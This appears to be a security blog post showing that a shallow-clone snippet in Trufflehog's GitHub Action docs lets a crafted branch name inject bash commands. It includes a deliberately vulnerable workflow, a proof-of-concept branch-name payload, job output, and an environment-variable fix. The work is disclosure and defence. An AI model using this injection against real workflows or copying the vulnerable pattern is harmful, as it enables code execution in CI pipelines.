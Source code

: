 ```yaml
---
layout: post
title: "Trufflehog Shallow Clone Insecurity - Part I"
date: 2024-12-12
tags: ["github"]
published: true
---
```


**Contents**
* TOC
{:toc}

# Problem Statement

Trufflehog's Github documentation uses `github.event.pull_request.head.ref` for shallow cloning. This pattern looks inherently dangerous. Does this pattern lead to shell injection within the Github Action?

{% raw %}
```
- shell: bash
  run: |
    if [ "${{ github.event_name }}" == "push" ]; then
      echo "depth=$(($(jq length <<< '${{ toJson(github.event.commits) }}') + 2))" >> $GITHUB_ENV
        echo "branch=${{ github.ref_name }}" >> $GITHUB_ENV
      fi
      if [ "${{ github.event_name }}" == "pull_request" ]; then
        echo "depth=$((${{ github.event.pull_request.commits }}+2))" >> $GITHUB_ENV
        echo "branch=${{ github.event.pull_request.head.ref }}" >> $GITHUB_ENV
      fi
```
{% endraw %}

# Trufflehog Github Action

Let's first talk about the general usage of the Trufflehog Github Action:[^1]

```
General Usage
on:
  pull_request:

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
    - name: Checkout code
      uses: actions/checkout@v4
      with:
        fetch-depth: 0
    - name: Secret Scanning
      uses: trufflesecurity/trufflehog@main
      with:
        extra_args: --results=verified,unknown
```
A `fetch-depth: 0` will fetch all history for all branches and tags.[^2]. This type of fetch is roughly size equivalent to cloning the whole repo. By default, `action/checkout` has a `fetch-depth` set to 1, which only fetches a single commit of the `ref/SHA` that triggered the workflow. For workflows that trigger on pull requests, the `ref/SHA` is the merge commit.[^3]

Neither of these two options is ideal for Trufflehog. A depth 0 is way too large and includes the entire repo history, while depth 1 only fetches the top commit and may exclude changes from earlier commits of the PR. In comes shallow cloning...

# Shallow Cloning

Shallow cloning allows Trufflehog to checkout only commits relevant to the pull request. Instead of checking out the entire repository, only commits up to a certain depth, i.e. between a base commit and head commit of the PR branch, are cloned. For multi-GB repositories shallow cloning is a MUST to keep PR scans fast.[^4] [^5]

# Attack Scenario

The `github.event.pull_request.head.ref` is the branch name and one of the event contexts that are user-controlled:[^6]

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* **`github.event.pull_request.head.ref`**
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

The branch name has character restrictions, which include colon or spaces.

`They cannot have ASCII control characters (i.e. bytes whose values are lower than \040, or \177 DEL), space, tilde ~, caret ^, or colon : anywhere.`[^7]

However, with a little bash magic `zzz";echo${IFS}"hello";#`[^8] and a vulnerable Github Action, the end result is arbitrary bash execution within the workflow.

**Vulnerable Github Action**
{% raw %}
```bash
# trufflehog-shallow-clone/.github/workflows/shallow-clone.yml
name: Shallow Clone

on:
  pull_request:
    branches: [ "main" ]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Run a multi-line script
        run: |
          if [ "${{ github.event_name }}" == "pull_request" ]; then
            echo "depth=$((${{ github.event.pull_request.commits }}+2))" >> $GITHUB_ENV
            echo "branch=${{ github.event.pull_request.head.ref }}" >> $GITHUB_ENV
          fi
```
{% endraw %}
**\*\*Job Output\*\***
```
Run if [ "pull_request" == "pull_request" ]; then
  if [ "pull_request" == "pull_request" ]; then
    echo "depth=$((1+2))" >> $GITHUB_ENV
    echo "branch=zzz";echo${IFS}"hello";#" >> $GITHUB_ENV
  fi
  shell: /usr/bin/bash -e {0}
branch=zzz
hello
```

# Mitigation

Note that using single quotes instead of double quotes does not fix this issue and is still vulnerable to bash injection. Instead store the branch name in a environment variable and then use bash variable expansion: "$zzz" instead of Github Action expressions: "$\{\{ zzz \}\}". 

**Vulnerable Github Action**
{% raw %}
```bash
# trufflehog-shallow-clone/.github/workflows/shallow-clone.yml
name: Shallow Clone

on:
  pull_request:
    branches: [ "main" ]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Run a multi-line script
        env:
          BRANCH: "${{ github.event.pull_request.head.ref }}"
        run: |
          if [ "${{ github.event_name }}" == "pull_request" ]; then
            echo "depth=$((${{ github.event.pull_request.commits }}+2))" >> $GITHUB_ENV
            echo "branch=$BRANCH" >> $GITHUB_ENV
            echo "Branch: $BRANCH"
          fi
```
{% endraw %}
**\*\*Job Output\*\***
```
Run if [ "pull_request" == "pull_request" ]; then
  if [ "pull_request" == "pull_request" ]; then
    echo "depth=$((1+2))" >> $GITHUB_ENV
    echo "branch=$BRANCH" >> $GITHUB_ENV
    echo "Branch: $BRANCH"
  fi
  shell: /usr/bin/bash -e {0}
  env:
    BRANCH: zzz";echo${IFS}"hello";#
Branch: zzz";echo${IFS}"hello";#
```

# References
[^1]: [https://github.com/trufflesecurity/trufflehog?tab=readme-ov-file#general-usage](https://github.com/trufflesecurity/trufflehog?tab=readme-ov-file#general-usage)
[^2]: [https://github.com/actions/checkout](https://github.com/actions/checkout)
[^3]: [https://www.kenmuse.com/blog/the-many-shas-of-a-github-pull-request/](https://www.kenmuse.com/blog/the-many-shas-of-a-github-pull-request/)
[^4]: [https://github.com/trufflesecurity/trufflehog?tab=readme-ov-file#shallow-cloning](https://github.com/trufflesecurity/trufflehog?tab=readme-ov-file#shallow-cloning)
[^5]: [https://trufflesecurity.com/blog/running-trufflehog-in-travis-ci](https://trufflesecurity.com/blog/running-trufflehog-in-travis-ci)
[^6]: [https://securitylab.github.com/resources/github-actions-untrusted-input/](https://securitylab.github.com/resources/github-actions-untrusted-input/)
[^7]: [https://mirrors.edge.kernel.org/pub/software/scm/git/docs/git-check-ref-format.html](https://mirrors.edge.kernel.org/pub/software/scm/git/docs/git-check-ref-format.html)
[^8]: The `#` symbol acts as the start of a comment in bash 